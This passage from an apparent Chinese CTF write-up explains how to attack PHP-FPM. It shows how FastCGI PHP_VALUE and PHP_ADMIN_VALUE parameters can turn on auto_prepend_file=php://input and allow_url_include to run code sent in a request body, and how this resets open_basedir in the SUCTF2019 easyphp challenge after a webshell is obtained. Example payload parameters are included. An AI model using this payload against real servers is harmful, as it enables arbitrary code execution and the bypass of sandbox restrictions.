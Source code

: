 如果设置auto_prepend_file为php://input，则相当于执行任何php文件之前会包含$_POST中的内容，使用php://input需要开启远程文件包含(allow_url_include)。

在PHP-FPM中还会解析两个环境变量

```
PHP_VALUE                 //用于设置PHP的配置项，除 disable_function 以外的大部分 php 配置
PHP_ADMIN_VALUE
```

设置`auto_prepend_file = php://input`且`allow_url_include = On`，然后将我们需要执行的代码放在Body中，即可执行任意代码。

```
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
```

以上介绍的只是对PHP-FPM进行攻击的正常流程，假如环境中增加了disable_functions的限制，如果使用包含`PHP_VALUE`==`disable_function=`的恶意FastCgi攻击FPM时，只能修改展示phpinfo信息的`EG(ini_directives)`，也就是表面修改，对于已经禁用的函数无效的。



## 实例解析

以SUCTF2019中的一道题为例easyphp，在获得webshell以后，发现有disable_functions的限制，这里可以通过与php-fpm进行通信来绕过open_basedir。

这里想要获得flag需要利用php_value对open_basedir的值进行重设

```
'PHP_VALUE': 'auto_prepend_file = php://input'+chr(0x0A)+'open_basedir = /',
```

![1567355257062](利用PHP-FPM实现open_basedir绕过.assets/1567355257062.png)
